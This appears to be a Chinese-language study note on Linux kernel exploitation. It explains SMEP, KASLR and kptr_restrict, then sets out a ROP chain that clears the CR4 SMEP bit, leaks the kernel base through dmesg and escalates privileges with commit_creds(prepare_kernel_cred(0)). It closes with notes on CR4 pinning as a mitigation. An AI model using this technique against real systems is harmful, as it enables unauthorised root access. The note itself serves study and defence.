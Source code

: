 [Linux Kernel x86-64 bypass SMEP - KASLR - kptr_restric](https://web.archive.org/web/20171029060939/http://www.blackbunny.io/linux-kernel-x86-64-bypass-smep-kaslr-kptr_restric/)

几个内核保护

* SMEP  Supervisor Mode Execution Protection
  
  当处于内核态时，无法执行用户态的指令，主要用于防止虚拟机逃逸的代码执行

* KASLR  kernel address space layout randomization
  
  kernel的地址随机化，用来避免被ROP攻击

* Kernel Address Display Restriction
  
  在 /proc/kallsyms 下会显示所有的kernel symbol，而上面的选项就是用于控制显示的地址的格式
  
  * 0  默认，无限制
  
  * 1  除非用户有 CAP_ SYSLOG（是一个属性么），否则使用 %pK 打印的地址都会显示为0
  
  * 2  无论是什么用户，使用 %pK 打印的地址都显示为0
  
  该属性在 `/proc/sys/kernel/kptr_restrict` 下设置

这篇文章假设一个内核模块存在栈溢出，并通过构造利用链绕过上述几个保护进行提权

#### SMEP绕过

SMEP位在CR4寄存器的第20位

可以使用两个gadget进行绕过

```nasm
pop rdi
ret


mov cr4, rdi
ret
```

#### KASLR绕过

KASLR的绕过方法就是找一个没开KASLR和kptr保护的内核来找到地址的偏移量，因为即使开了KASLR，偏移也是相同的

#### exp

##### 使用dmesg泄露基地址

使用dmesg的这行来泄露地址

```
[    0.208567] Freeing SMP alternatives memory: 24K (ffffffffb9ea9000 - ffffffffb9eaf000)
```

计算ROP链上各个地址与该地址的偏移

##### ROP链

```
rop地址    ->    pop rdi;  ret;
新的CR4内容new_cr4
rop地址    ->    mov cr4, rdi;  pop rbp; ret;
新的rbp内容，这个随便写
getroot函数地址
rop地址    ->    swapgs; pop rbp; ret;
新的rbp内容，这个也随便写
rop地址    ->    iretq;    # 下面是iretq会从栈上pop出来的内容，因此在执行提权shellcode前需要保存原来的状态
shell函数地址               # RIP
user_cs                    # CS
user_eflags                # eflags
user_rsp                   # RSP
user_ss                    # SS
```

其中getroot函数包含了提权代码

```c
void getroot (void)  
{
  commit_creds(prepare_kernel_cred(0));
}
```

commit_creds和prepare_kernel_cred都是从内核符号中获取的

所以上述shellcode流程大体如下

* 首先通过
  
  ```nasm
  pop rdi
  ret
  
  mov cr4, rdi
  pop rbp ; 这句不重要
  ret
  ```
  
  这两段rop来关闭SMEP保护

* 调用用户代码的getroot函数获取root权限，其中getroot调用的函数是通过泄露基地址计算得到的函数地址，此外因为此时rop程序是在驱动中运行的，所以代码的执行权限为root

* 通过
  
  ```nasm
  swapgs
  pop rbp    ; 这句不重要
  ret
  
  iretq
  ```
  
  构造返回用户代码的rop链

[SWAPGS - OSDev Wiki](https://wiki.osdev.org/SWAPGS) 关于SWAPGS

#### 缓解

针对上述攻击，有下列应对方式

https://lwn.net/Articles/807904/

该方式加入了一个叫做pinned_bits的位，该位会在启动前设置，而当调用 write_cr4() 时会判断pinned_bits对应的位有没有被改过，若有则会把它们改回去

但其实也还是可以直接通过rop内核函数的方式来攻击

https://breaking-bits.gitbook.io/breaking-bits/exploit-development/linux-kernel-exploit-development/supervisor-mode-execution-protection-smep
